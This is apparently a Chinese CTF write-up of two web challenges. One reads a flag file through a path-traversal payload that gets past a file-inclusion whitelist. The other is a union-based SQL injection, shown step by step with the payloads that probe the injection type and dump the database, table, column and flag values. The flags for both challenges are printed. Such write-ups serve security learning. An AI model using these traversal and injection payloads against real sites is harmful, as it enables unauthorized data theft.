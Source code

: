 又发现一个`hint.php`页面，进入发现提示
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200319172347797.png)

再源代码里面发现了文件包含，其中

![warmup](images/web/攻防世界_warmup_2.png)

这里我们可以构造一个参数进行提交，GET或者POST都可以，这里的php代码拿file参数会进行三个判断：

1. 检查参数是否为空
2. 检查参数是否为字符串
3. 自定义checkFile函数进行判断，只能存在source.php,hint.php

所以我们构建payload，从网站的根目录到达服务器/目录下的**ffffllllaaaagggg**文件

```
?file=hint.php?/../../../../ffffllllaaaagggg
```

拿到flag，`flag{25e7bce6005c4e0c983fb97297ac6e5a}`



### NewsCenter

这题是一道sql注入题，还是比较简单的

首先判断注入种类

- search=0		不报错
- search=0'   	报错
- search=0"  	不报错

再判断有无括号

- search=1' #   	不报错
- search=1') #   	报错

最后确认为**单引号字符串类，无括号**

那就开始我们的注入了

```
search=1' order by 4 #		当加到4时报错，那么最大输出列为3列
search=1' and 0 union select 1,2,3 #		判断数显位为2，3位

//爆库
search=0'  and 0 union select 1,2,database() #		//库为：news

//爆表
search=0'  and 0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="news" #		//表有两张，news,secret_table

//爆字段
search=0'  and 0 union select 1,2,group_concat(column_name) from information_schema.columns where table_name="secret_table" #		//确认flag在"secret_table"表中，看到字段为id,fl4g

//爆值
search=0'  and 0 union select 1,2,fl4g from secret_table #		//flag为：QCTF{sq1_inJec7ion_ezzz}
```